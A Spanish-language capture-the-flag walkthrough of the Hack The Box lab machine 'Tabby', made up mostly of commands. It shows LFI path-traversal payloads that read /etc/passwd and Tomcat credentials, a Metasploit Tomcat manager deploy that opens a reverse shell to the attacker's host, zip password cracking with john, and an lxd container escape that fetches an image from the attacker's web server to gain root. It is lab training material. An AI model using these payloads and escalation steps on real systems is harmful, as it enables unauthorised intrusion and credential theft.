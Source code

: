# Tabby

**OS**: Linux \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- Local File Inclusion (LFI)
- Apache Tomcat Manager Application Deployer (exploit)
- Zip2john
- Lxd Privilege Escalation

## Nmap Scan

`nmap -Pn -sV -sC 10.10.10.194`

```
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.071s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

La salida del escaneo nos regresa un nombre de dominio llamado **megahosting.htb**, lo agregamos a nuestro archivo **/etc/hosts**.

Después de agregar el dominio podemos ver que en el apartado **NEWS** existe un parámetro llamado **file**.

`http://megahosting.htb/news.php?file=statement`

![1](img/1.png)

La aplicación que está en el puerto 8080 es un tomcat a la cual no podemos acceder, ya que no contamos con credenciales.

`http://10.10.10.194:8080/host-manager/html`

![2](img/2.png)

### Local File Inclusion

Nos percatamos que el parámetro **file** es vulnerable a **LFI**, ya que nos regresa el archivo **passwd**.

`view-source:http://megahosting.htb/news.php?file=../../../../etc/passwd`

![3](img/3.png)

Intentando obtener el contenido de los archivos de configuración tomcat por fin damos con la ruta correcta que contiene las credenciales.

`view-source:http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml`

![4](img/4.png)

### Apache Tomcat Manager Application Deployer

Usaremos un módulo de **metasploit** para conseguir nuestra shell.

```
use exploit/multi/http/tomcat_mgr_deploy
set httpPassword '$3cureP4s5w0rd123!'
set httpUsername 'tomcat'
set PATH /manager/text
set rhosts 10.10.10.194
set rport 8080
set lhost 10.10.15.251
set lport 1234
set target 1
set FingerprintCheck false
```

![5](img/5.png)

- `run`
- `getuid`

![6](img/6.png)

## Escalada de Privilegios (User)

Enumerando los directorios nos encontramos con un archivo ZIP, el cual descargamos.

- `ls /var/www/html/files`
- `download /var/www/html/files/16162020_backup.zip`

![7](img/7.png)

Al intentar descomprimir el ZIP nos pide un password, obtendremos el password utilizando **zip2john** y **john**.

### Zip2john

`sudo zip2john 16162020_backup.zip > hash.txt`

![8](img/8.png)

`sudo john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt`

![9](img/9.png)

Con el password podemos descomprimir el archivo ZIP pero no hay nada nuevo por lo tanto procedemos a utilizarlo con el usuario ash.

- `shell`
- `python3 -c "import pty;pty.spawn('/bin/bash')"`
- `su ash`

![10](img/10.png)

## Escalada de Privilegios (Root)

Podemos ver que el usuario ash pertenece al grupo **lxd**. Investigando sobre ese grupo llegamos a este [articulo](https://www.hackingarticles.in/lxd-privilege-escalation/) que nos explica como tomar ventaja de eso.

### Lxd Privilege Escalation

Descargamos el repositorio para construir nuestra imagen.

`git clone  https://github.com/saghul/lxd-alpine-builder.git`

![11](img/11.png)

Construimos nuestro imagen alpine.

`sudo ./build-alpine`

![12](img/12.png)

Levantamos nuestro servidor web y descargamos el archivo desde la máquina.

- `sudo python3 -m http.server 80`
- `wget http://10.10.15.251/alpine-v3.12-x86_64-20200621_1012.tar.gz`

![13](img/13.png)

Iniciamos el proceso de configuración de **lxd** y en la parte de **storage backend** escribiremos **dir**, todo lo demás se quedará en default.

`lxd init`

![14](img/14.png)

Importamos nuestra imagen y la configuramos.

- `lxc image import ./alpine-v3.12-x86_64-20200621_1012.tar.gz --alias doom`
- `lxc image list`
- `lxc init doom ignite -c security.privileged=true`
- `lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true`
- `lxc start ignite`

![15](img/15.png)

Obtenemos nuestra shell como root a través de nuestra imagen y podemos acceder a los directorios del sistema, ya que los montamos en la ruta **/mnt/root**.

- `lxc exec ignite /bin/sh`
- `id`
- `cd /mnt/root/root`

![16](img/16.png)

## Referencias
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion \
https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_deploy \
https://www.hackingarticles.in/lxd-privilege-escalation/